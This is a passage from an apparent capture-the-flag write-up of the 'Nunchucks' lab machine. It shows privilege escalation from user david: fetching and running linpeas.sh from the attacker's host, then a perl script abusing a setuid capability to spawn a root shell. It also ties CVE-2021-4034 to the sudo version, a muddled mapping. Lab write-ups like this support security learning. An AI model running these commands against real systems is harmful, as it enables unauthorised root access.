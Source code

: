 ```bash


10 updates can be applied immediately.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Fri Oct 22 19:09:52 2021 from 10.10.14.6
david@nunchucks:~$ 
```
We obtanied an interactive shell as user `david`.

## Privilege escalation
The first enumeration related to privesc is:
```bash
david@nunchucks:~$ sudo -l
[sudo] password for david: 
david@nunchucks:~$ cat /etc/sudoers
cat: /etc/sudoers: Permission denied
david@nunchucks:~$ groups
david
```
As we can see, david does not have any obvious privileges. We can now run eumeration scripts as linpeas or pspy:
### linpeas.sh
```bash
david@nunchucks:/tmp$ wget http://10.10.16.2:4444/linpeas.sh
david@nunchucks:/tmp$ chmod +x linpeas.sh
david@nunchucks:/tmp$ ./linpeas.sh
```
From where we discover:
- Operative System: `Ubuntu 20.04.3 LTS focal`
- Sudo version: `1.8.31` -> Vuln to CVE-2021-4034
- Local active ports:
  - `3306`: Possible `mysql`
  - `8000`: `node`
  - `8001`: `PM2 v5.1.1`
- Users with shell: `root` and `david`
- Setuid capabilities: `/usr/bin/perl`

From this information we discovered the `pkexec` vulnerability, but this is not the intended escalation. On the other hand, we can see that `/usr/bin/perl` has a `setuid` capability:
```bash
david@nunchucks:/tmp$ cat evil.pl 
#!/usr/bin/perl

use POSIX qw(setuid);

POSIX::setuid(0);
exec "/bin/sh";
david@nunchucks:/tmp$ ./evil.pl 
# whoami
root
```
We obtained a shell as the `root` user.
